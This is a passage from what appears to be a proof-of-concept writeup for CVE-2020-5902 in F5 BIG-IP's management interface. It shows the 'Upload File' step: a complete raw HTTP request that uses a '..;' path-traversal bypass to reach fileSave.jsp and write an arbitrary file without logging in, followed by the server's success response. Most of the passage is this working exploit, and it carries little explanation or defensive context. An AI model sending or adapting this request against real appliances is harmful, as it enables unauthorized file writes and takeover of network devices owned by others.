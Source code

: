 

## 0x03 Upload File

Example:
`/tmui/locallb/workspace/fileSave.jsp`

POST:
`fileName=/tmp/1.txt&content=CVE-2020-5902`

![](./fileSave.png)



#### Burpsuite Requests
```
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

fileName=/tmp/1.txt&content=CVE-2020-5902



HTTP/1.1 200 OK
Date: Mon, 06 Jul 2020 02:05:29 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 4
Connection: close

```